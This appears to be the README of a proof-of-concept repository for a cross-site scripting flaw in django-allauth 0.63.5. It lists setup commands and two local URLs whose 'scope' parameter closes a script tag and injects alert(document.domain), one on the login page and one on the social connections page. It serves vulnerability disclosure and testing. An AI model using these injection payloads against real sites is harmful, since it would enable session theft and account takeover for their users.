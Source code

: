 # Proof of concept for a XSS vulnerability in django-allauth@0.63.5

## Requirements

- Python
- [uv](https://docs.astral.sh/uv/getting-started/installation/)

## Set up

```bash
$ git clone https://github.com/stsewd/poc-xss-django-allauth
$ cd poc-xss-django-allauth
$ uv run manage.py migrate
# Create a user to log into the application.
$ uv run manage.py createsuperuser
$ uv run manage.py runserver
```

## Proof of concept

**XSS in login page**

- While logged out, go to ``http://127.0.0.1:8000/accounts/login/?scope=</script><script>alert(document.domain)</script><script>``

**XSS in social connections page**

- Log in with the user you created.
- Go to ``http://127.0.0.1:8000/accounts/3rdparty/?scope=</script><script>alert(document.domain)</script><script>``
